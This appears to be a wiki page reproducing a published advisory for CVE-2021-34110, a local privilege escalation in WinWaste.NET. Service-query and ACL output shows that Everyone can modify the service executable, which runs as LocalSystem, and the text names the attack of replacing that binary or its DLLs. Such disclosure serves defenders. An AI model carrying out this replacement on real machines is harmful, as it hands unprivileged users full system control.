 <languages /> <translate>

影響版本
--------

</translate> Version: 1.0.6183.16475

EXP
---

    # Exploit Title: WinWaste.NET - Privilege Escalation due Incorrect Access Control
    # Date: 2021-07-01
    # Author: Andrea Intilangelo
    # Vendor Homepage: http://nica.it - http://winwastenet.com
    # Version: 1.0.6183.16475
    # Tested on: Windows 10 Pro x64 - 20H2 and 21H1
    # CVE: CVE-2021-34110

    WinWaste.NET version 1.0.6183.16475 (from Nica s.r.l., a Zucchetti Group company) allows a local unprivileged user to replace the executable with a malicious file that will be executed with "LocalSystem" privileges.

    (1) Affected service's executable: "C:\Program Files (x86)\WW.NET\WW.PROG\WinWasteService.exe"

    (2) Attack Vectors: replacing the WinWasteService.exe and/or any tied .dll used by the software.

    (3) Details:

    C:\Users\user>sc qc winwasteservice
    [SC] QueryServiceConfig OPERAZIONI RIUSCITE

    NOME_SERVIZIO: winwasteservice
            TIPO                      : 10  WIN32_OWN_PROCESS
            TIPO_AVVIO                : 2   AUTO_START
            CONTROLLO_ERRORE          : 1   NORMAL
            NOME_PERCORSO_BINARIO     : "C:\Program Files (x86)\WW.NET\WW.PROG\WinWasteService.exe"
            GRUPPO_ORDINE_CARICAMENTO :
            TAG                       : 0
            NOME_VISUALIZZATO         : WinwasteService
            DIPENDENZE                :
            SERVICE_START_NAME : LocalSystem


    C:\Users\user>icacls "C:\Program Files (x86)\WW.NET\WW.PROG\WinWasteService.exe"
    C:\Program Files (x86)\WW.NET\WW.PROG\WinWasteService.exe Everyone:(I)(M)
                                                              NT AUTHORITY\SYSTEM:(I)(F)
                                                              BUILTIN\Administrators:(I)(F)
                                                              BUILTIN\Users:(I)(RX)
                                                              AUTORITÀ PACCHETTI APPLICAZIONI\TUTTI I PACCHETTI APPLICAZIONI:(I)(RX)
                                                              AUTORITÀ PACCHETTI APPLICAZIONI\TUTTI I PACCHETTI APPLICAZIONI CON RESTRIZIONI:(I)(RX)

    Elaborazione completata per 1 file. Elaborazione non riuscita per 0 file

    C:\Users\user>cacls "C:\Program Files (x86)\WW.NET\WW.PROG\WinWasteService.exe"
    C:\Program Files (x86)\WW.NET\WW.PROG\WINWASTESERVICE.EXE Everyone:(ID)C
                                                              NT AUTHORITY\SYSTEM:(ID)F
                                                              BUILTIN\Administrators:(ID)F
                                                              BUILTIN\Users:(ID)R
                                                              AUTORITÀ PACCHETTI APPLICAZIONI\TUTTI I PACCHETTI APPLICAZIONI:(ID)R
                                                              AUTORITÀ PACCHETTI APPLICAZIONI\TUTTI I PACCHETTI APPLICAZIONI CON RESTRIZIONI:(ID)R

    C:\Users\user>icacls "C:\Program Files (x86)\WW.NET\WW.PROG"
    C:\Program Files (x86)\WW.NET\WW.PROG Everyone:(I)(OI)(CI)(M)
                                          NT SERVICE\TrustedInstaller:(I)(F)
                                          NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                                          NT AUTHORITY\SYSTEM:(I)(F)
                                          NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                                          BUILTIN\Administrators:(I)(F)
                                          BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                                          BUILTIN\Users:(I)(RX)
                                          BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                                          CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                                          AUTORITÀ PACCHETTI APPLICAZIONI\TUTTI I PACCHETTI APPLICAZIONI:(I)(RX)
                                          AUTORITÀ PACCHETTI APPLICAZIONI\TUTTI I PACCHETTI APPLICAZIONI:(I)(OI)(CI)(IO)(GR,GE)
                                          AUTORITÀ PACCHETTI APPLICAZIONI\TUTTI I PACCHETTI APPLICAZIONI CON RESTRIZIONI:(I)(RX)
                                          AUTORITÀ PACCHETTI APPLICAZIONI\TUTTI I PACCHETTI APPLICAZIONI CON RESTRIZIONI:(I)(OI)(CI)(IO)(GR,GE)

    Elaborazione completata per 1 file. Elaborazione non riuscita per 0 file


    C:\Users\user>cacls "C:\Program Files (x86)\WW.NET\WW.PROG\"
    C:\Program Files (x86)\WW.NET\WW.PROG Everyone:(OI)(CI)(ID)C
                                          NT SERVICE\TrustedInstaller:(ID)F
                                          NT SERVICE\TrustedInstaller:(CI)(IO)(ID)F
                                          NT AUTHORITY\SYSTEM:(ID)F
                                          NT AUTHORITY\SYSTEM:(OI)(CI)(IO)(ID)F
                                          BUILTIN\Administrators:(ID)F
                                          BUILTIN\Administrators:(OI)(CI)(IO)(ID)F
                                          BUILTIN\Users:(ID)R
                                          BUILTIN\Users:(OI)(CI)(IO)(ID)(accesso speciale:)
                                                                        GENERIC_READ
                                                                        GENERIC_EXECUTE

                                          CREATOR OWNER:(OI)(CI)(IO)(ID)F
                                          AUTORITÀ PACCHETTI APPLICAZIONI\TUTTI I PACCHETTI APPLICAZIONI:(ID)R
                                          AUTORITÀ PACCHETTI APPLICAZIONI\TUTTI I PACCHETTI APPLICAZIONI:(OI)(CI)(IO)(ID)(accesso speciale:)
                                                                                                                         GENERIC_READ
                                                                                                                         GENERIC_EXECUTE

                                          AUTORITÀ PACCHETTI APPLICAZIONI\TUTTI I PACCHETTI APPLICAZIONI CON RESTRIZIONI:(ID)R
                                          AUTORITÀ PACCHETTI APPLICAZIONI\TUTTI I PACCHETTI APPLICAZIONI CON RESTRIZIONI:(OI)(CI)(IO)(ID)(accesso speciale:)
                                                                                                                                         GENERIC_READ
                                                                                                                                         GENERIC_EXECUTE